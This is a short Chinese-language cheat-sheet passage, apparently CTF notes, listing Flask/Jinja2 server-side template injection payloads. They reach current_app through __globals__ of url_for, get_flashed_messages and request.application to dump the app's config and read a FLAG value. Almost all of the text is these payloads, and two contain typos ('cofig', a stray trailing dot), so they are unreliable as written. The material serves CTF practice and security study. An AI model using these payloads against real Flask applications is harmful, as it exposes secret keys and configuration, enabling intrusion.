 #### 通过拿到current_app这个对象获取当前flask App的上下文信息来实现config读取

```
{{url_for.__globals__.current_app.config}}

{{url_for.__globals__['current_app'].config}}

{{get_flashed_messages.__globals__['current_app'].config.}}

{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].cofig}}

```

#### 特殊变量

> 



```
{{url_for.__globals__['current_app'].config.FLAG}}

{{get_flashed_messages.__globals__['current_app'].config.FLAG}}

{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}

```
